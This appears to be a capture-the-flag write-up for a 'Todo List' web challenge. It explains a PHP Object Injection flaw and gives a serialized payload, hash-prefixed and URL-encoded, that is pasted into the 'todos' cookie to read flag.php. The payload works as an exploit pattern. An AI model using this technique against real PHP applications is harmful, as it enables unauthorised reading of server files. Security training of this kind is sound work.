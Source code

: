 
## Todo List

![img](https://i.ibb.co/dQBGxXC/image.png)

## Solution:

This challenge contains the PHP Object Injection vulnerability which allows attacker to modify the object. Your task is to modify the object which will be stored as a cookie when you add any task in the list. You will get basic payload creation idea if you see the provided PHP code carefully.

### Payload Creation


Step 1 - Basic payload to read flag.php
```
a:1:{i:1;O:10:"ShowSource":1:{s:6:"source";s:8:"flag.php";}}
```
#

Step 2 - Getting SHA1 hash of above payload

![img](https://i.ibb.co/LvRRknh/Screenshot-from-2022-03-21-17-03-55.png)

#

Step 3 - Encoding the basic payload

![img](https://i.ibb.co/Ws1zmtn/Screenshot-from-2022-03-21-17-11-21.png)

#

Step 4 - Concatenating generated `Hash` and `Encoded Basic Payload` together.

```
168ebef72875ddf6d6e4ac71f87a4bb2be6b5373a%3A1%3A%7Bi%3A1%3BO%3A10%3A%22ShowSource%22%3A1%3A%7Bs%3A6%3A%22source%22%3Bs%3A8%3A%22flag.php%22%3B%7D%7D
```

#

### Payload Injection

Step 1 - Just add any random task in todo list

Step 2 - Go to cookies section by inspecting the page

![img](https://i.ibb.co/y0GRyLp/Screenshot-from-2022-03-21-16-53-55.png)

#

Step 3 - Edit `todos` cookie value and paste our payload and refresh the page.

![img](https://i.ibb.co/4K80Nxm/Screenshot-from-2022-03-21-17-19-23.png)
